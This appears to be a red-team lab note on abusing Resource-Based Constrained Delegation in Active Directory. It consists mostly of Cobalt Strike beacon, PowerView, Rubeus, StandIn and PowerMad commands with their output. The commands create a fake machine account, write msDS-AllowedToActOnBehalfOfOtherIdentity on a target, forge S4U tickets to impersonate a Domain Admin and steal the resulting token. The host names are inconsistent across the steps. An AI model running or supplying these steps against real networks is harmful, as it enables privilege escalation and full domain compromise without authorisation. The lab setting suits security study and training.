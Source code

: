 It's possible to gain code execution with elevated privileges on a remote computer if you have WRITE privilege on that computer's AD object.
## Overview
#ResourceBasedConstrainedDelegation
High level overview of the attack as performed in the lab:
- We have code execution on the box `WS02` in the context of `offense\sandy` user;
- User `sandy` has `WRITE` privilege over a target computer `WS01`;
- User `sandy` creates a new computer object `FAKE01` in Active Directory (no admin required);
- User `sandy` leverages the `WRITE` privilege on the `WS01` computer object and updates its object's attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` to enable the newly created computer `FAKE01` to impersonate and authenticate any domain user that can then access the target system `WS01`. In human terms this means that the target computer `WS01` is happy for the computer `FAKE01` to impersonate any domain user and give them any access (even Domain Admin privileges) to `WS01`;
- `WS01` trusts `FAKE01` due to the modified `msDS-AllowedToActOnBehalfOfOtherIdentity`;
- We request Kerberos tickets for `FAKE01$` with ability to impersonate `offense\spotless` who is a Domain Admin;
- Profit - we can now access the `c$` share of `ws01` from the computer `ws02`.

## Execute
```
beacon> powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
```
![[Pasted image 20240917095421.png]]
A common means of obtaining a principal with an SPN is to use a computer account.  Since we have elevated privileges on Workstation 2, we can use that.  To start the attack, we need its SID.
```
beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid

objectsid                                   
---------                                   
S-1-5-21-569305411-121244042-2357301523-1109
```

Set the msDS-AllowedToActOnBehalfOfOtherIdentity in raw binary
```
powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose
```
Another way is to:
```
Get-DomainComputer dc-2 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```
check
```
beacon> powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
Next, we use the WKSN-2$ account to perform the S4U impersonation with Rubeus.  The `s4u` command requires a TGT, RC4 or AES hash.  Since we already have elevated access to it, we can just extract its TGT from memory.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

 | 0x3e4    | wkstn-2$ @ DEV.CYBERBOTIC.IO | krbtgt/DEV.CYBERBOTIC.IO                      | 9/13/2022 7:27:12 PM


beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=

steal_token
```


## Without local admin access, we can create a FAKE Computer
```
beacon> powershell Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota

ms-ds-machineaccountquota
-------------------------
                       10
```
[StandIn](https://github.com/FuzzySecurity/StandIn) is a post-ex toolkit written by [Ruben Boonen](https://twitter.com/FuzzySec) and has the functionality to create a computer with a random password.
```
beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make

[?] Using DC    : dc-2.dev.cyberbotic.io
    |_ Domain   : dev.cyberbotic.io
    |_ DN       : CN=EvilComputer,CN=Computers,DC=dev,DC=cyberbotic,DC=io
    |_ Password : oIrpupAtF1YCXaw

[+] Machine account added to AD..

Get-DomainComputer EvilComputer
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1154
```
PowerMad is another tool to create fake computers
```
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'oIrpupAtF1YCXaw' -AsPlainText -Force) -Verbose


Get-DomainComputer fake01
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1154
```

Get hashes of the fake computer 
```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io
...
[*]       aes256_cts_hmac_sha1 : 7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044
...
```
ask tgt
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044 /nowrap
```
And the rest is the same
Set msDS-AllowedToActOnBehalfOfOtherIdentity
Impersonate with s4u
create net only
steal token

